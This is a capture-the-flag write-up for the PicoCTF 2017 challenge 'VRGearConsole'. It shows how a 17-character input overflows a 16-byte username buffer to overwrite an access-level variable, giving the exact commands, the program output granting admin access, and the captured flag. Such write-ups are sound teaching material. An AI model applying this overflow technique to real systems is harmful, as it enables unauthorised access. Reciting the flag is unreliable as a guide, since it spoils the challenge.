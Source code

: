 # PicoCTF_2017: VRGearConsole

**Category:** Binary Exploitation
**Points:** 95
**Description:**

>Here's the [VR gear admin console](vrgearconsole.c). See if you can figure out a way to log in. The problem is found here: /problems/1e50bd93be07ea1bca65a1a071e18eef

**Hint:**

>What happens if you read in more characters than the length of the username buffer?
You should look at an ascii table to see what character you need to choose.
Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
"cat file - | vrgearconsole " will keep the pipe open for commands.

## Write-up
Looking at the source code, we see a gaping hole for buffer overflow.

    int accessLevel = 0xff;
    char username[16];
    char password[32];

So, to buffer overflow this, we need to fill up username past it's limits to overwrite accessLevel. One way to do that, is by simply sending `17` characters.

    $ echo "AAAAAAAAAAAAAAAA!" > ~/file
    $ cat ~/file - | ./vrgearconsole 
    +----------------------------------------+
    |                                        |
    |                                        |
    |                                        |
    |                                        |
    |  Welcome to the VR gear admin console  |
    |                                        |
    |                                        |
    |                                        |
    |                                        |
    +----------------------------------------+
    |                                        |
    |      Your account is not recognized    |
    |                                        |
    +----------------------------------------+




    Please login to continue...


    Username (max 15 characters): Password (max 31 characters):
    Your access level is: 0x00000021
    Admin access granted!
    The flag is in "flag.txt".
    cat flag.txt
    8b7ea70220f19ab662750a8710a552c4

Therefore, the flag is `8b7ea70220f19ab662750a8710a552c4`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTM0MDM3Mzc3Nl19
-->